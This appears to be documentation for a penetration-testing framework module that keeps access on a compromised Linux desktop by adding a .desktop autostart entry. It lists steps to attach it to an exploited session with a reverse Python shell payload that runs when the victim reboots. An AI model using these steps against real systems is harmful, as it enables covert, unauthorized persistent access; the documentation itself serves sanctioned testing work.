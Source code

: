 ## Autostart persistence

This module persist a payload by creating a `.desktop` entry for Linux desktop targets.

### Testing

1. Exploit a box
2. `use exploit/linux/local/autostart_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` (for instance), configure the payload as needed
5. `exploit`

When the victim reboots your payload will be executed!


### Options


**NAME**

Name of the `.desktop` entry to add, if not specified it will be chosen randomly.

